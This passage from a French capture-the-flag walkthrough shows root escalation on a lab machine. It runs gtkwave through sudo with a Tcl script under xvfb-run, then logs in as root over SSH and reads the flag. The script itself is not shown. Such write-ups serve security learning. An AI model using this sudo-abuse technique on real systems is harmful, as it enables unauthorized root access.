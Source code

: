 On pourrait faire tourner un X sur notre machine et passer notre IP via la variable `DISPLAY` mais j'ai eu recours à `xvfb-run` qui est une sorte d'émulateur X pour les terminaux :

```console
pycrtlake@PyCrt:~$ xvfb-run -a sudo /usr/bin/gtkwave -S script.tcl test.vcd

GTKWave Analyzer v3.3.118 (w)1999-2023 BSI

[0] start time.
[10] end time.

(gtkwave:32311): dconf-WARNING **: 12:51:44.181: failed to commit changes to dconf: Failed to execute child process ?dbus-launch? (No such file or directory)
GTKWAVE | Executing Tcl script 'script.tcl'
victory

(gtkwave:32311): dconf-WARNING **: 12:51:44.294: failed to commit changes to dconf: Failed to execute child process ?dbus-launch? (No such file or directory)

(gtkwave:32311): dconf-WARNING **: 12:51:44.294: failed to commit changes to dconf: Failed to execute child process ?dbus-launch? (No such file or directory)
^C
```

On voit ici le petit "victory" que j'avais placé dans mon script. On peut donc récupérer l'accès root :

```console
$ ssh -i ~/.ssh/key_no_pass root@192.168.242.130
Linux PyCrt 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun May 11 06:40:51 2025
root@PyCrt:~# id
uid=0(root) gid=0(root) groups=0(root)
root@PyCrt:~# ls
root.txt
root@PyCrt:~# cat root.txt 
flag{e80ecc46ca5e00bf8a51c47f0cc3e868}
```
